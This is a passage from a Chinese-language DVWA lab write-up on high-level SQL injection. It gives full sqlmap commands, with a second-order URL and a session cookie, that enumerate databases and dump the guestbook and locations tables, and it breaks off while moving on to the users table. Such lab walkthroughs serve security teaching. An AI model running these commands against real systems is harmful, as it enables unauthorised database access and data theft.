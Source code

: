 ![image-20211103102437996](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955848.png)

漏洞检查成功。

##### ②简略过程

接下来的步骤和low、medium的sqlmap操作差不多：

###### 使用 `--dbs`查看数据库

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://192.168.112.140/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch --dbs`

![image-20211103102736070](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955649.png)

###### 查看dvwa 数据库中的表

![image-20211103102837093](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955726.png)

###### 查看表guestbook中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://192.168.112.140/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook --columns`

![image-20211103103007130](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955632.png)

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://192.168.112.140/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook -C "comment,comment_id,name" --dump`

![image-20211103103205389](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955576.png)

###### 查看表locations中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://192.168.112.140/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations --columns`
![image-20211103103043157](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955441.png)

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://192.168.112.140/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations -C "latitude,longtitude,name" --dump`

![image-20211103103312387](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955281.png)

###### 查看表user中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://192.168.112.140/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T users --columns`
